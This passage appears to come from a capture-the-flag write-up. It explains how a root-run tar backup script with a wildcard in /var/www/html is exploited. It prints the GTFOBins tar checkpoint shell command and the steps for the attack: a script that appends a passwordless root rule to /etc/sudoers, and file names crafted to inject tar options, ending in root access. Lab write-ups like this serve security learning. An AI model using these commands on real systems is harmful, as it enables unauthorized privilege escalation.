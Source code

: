 ```bash
cat backup.sh

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

This script is very simple, it just goes to the `/var/www/html` folder and archiving all of the data inside `/home/milesdyson/backups/backup.tgz *`

The thing is, that we can write inside the `/var/www/html` directory.

So we can use this GTFObin script:

**Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

What you have to do is run the following in the /var/www/html folder (which is being backed up).

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"
```

And after a minute we have root access just by using: `sudo su`
